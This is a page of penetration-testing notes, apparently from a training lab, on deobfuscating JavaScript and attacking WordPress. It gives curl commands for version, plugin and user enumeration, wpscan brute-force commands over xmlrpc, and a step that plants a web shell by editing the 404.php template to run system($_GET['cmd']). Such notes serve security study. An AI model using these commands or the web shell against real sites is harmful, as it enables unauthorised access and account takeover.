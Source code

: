 
# JavaScript Deobfuscate
  - [Make it pretty](https://prettier.io/playground/) --> then [unpack](https://matthewfl.com/unPacker.html)
  - Run Javacript console - https://jsconsole.com/

# WordPress Info (Use API token to get vuln details)
- https://github.com/wpscanteam/wpscan
- WordPress is written in PHP and usually runs on Apache with MySQL as the backend.
- Webroot located at /var/www/html
- Deactivating a vulnerable plugin does not improve the WordPress site's security. It is best practice to either remove or keep up-to-date any unused plugins.
- A Content Management Application (CMA) - the interface used to add and manage content. A Content Delivery Application (CDA) - the backend that takes the input entered into the CMA and assembles the code into a working, visually appealing website.
- Look for index.php, license.txt, wp-activate.php, /var/www/html/wp-includes, /var/www/html/wp-admin and /var/www/html/wp-content.
- WP has Admin, Editor, Author, Contributor, Subscriber roles. The admin user is usually assigned the user ID 1
- Look for `<meta name="generator" content="WordPress 5.3.3" />` (`curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'`)
- Look for particular plugins - `curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/someplugin` 404 if it doesnt exist
- `curl -s -X GET http://94.237.48.48:34933/wp-content/plugins/mail-masta/inc/flag.txt | html2text`
- User Enumeration - `curl -s -I http://blog.inlanefreight.com/?author=1` Usually admin, if not then 404
- WPSCAN enumeration - `wpscan --url http://blog.inlanefreight.com --enumerate --api-token Kffr4fdJzy9qVcTk<SNIP>`
- > 4.7.1 wordpress user enumeration - `curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq`
- The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.
- `wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com`
- Modify template 404.php file with - `system($_GET['cmd']);` then `curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"`
